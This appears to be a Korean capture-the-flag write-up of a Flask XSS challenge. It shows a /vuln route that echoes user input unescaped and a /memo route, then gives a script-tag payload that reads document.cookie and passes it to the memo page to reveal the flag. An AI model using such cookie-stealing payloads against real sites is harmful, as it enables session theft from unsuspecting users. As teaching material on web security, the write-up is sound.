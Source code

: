 ## 취약점 분석

### memo 함수

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)
```

* 이용자가 전달한 memo 파라미터 값을 render_template 함수를 통해 기록하고 출력합니다.


### vuln 함수

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "") # 이용자가 입력한 vuln 인자를 가져옴
    return param # 이용자의 입력값을 화면 상에 표시
```

* 이용자가 입력한 값을 페이지에 그래도 출력합니다.

⇨ memo 함수와 vuln 함수 둘다 이용자가 입력한 값을 페이지에 그대로 출력하고 있습니다.

⇨ render_template 함수를 사용하는 memo 함수는 변수가 기록될 때 HTML 엔티티코드로 변환되서 저장되는데, vuln은 그냥 출력하고 있어서 XSS 취약점이 발생합니다.


<br>


## 익스플로잇

<img src="https://velog.velcdn.com/images/silvergun8291/post/12c1903c-92cb-4055-9fd9-6b086a16ac40/image.png">

문제 사이트에 접속하면 3개의 연결된 페이지들의 목록이 나옵니다.

#

![](https://velog.velcdn.com/images/silvergun8291/post/214fb9f1-1837-4480-9b4c-b69af70254fc/image.png)

flag 페이지로 들어가면 입력창이 떠서 XSS 공격을 시도해볼 수 있습니다.

<br>

```html
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

script 태그를 이용해서 XSS 공격을 시도해 보면

#

<img src="https://velog.velcdn.com/images/silvergun8291/post/bfe59d5d-23da-48e2-99a7-92c22373df13/image.png">

공격이 성공해서 FLAG가 출력되었습니다.



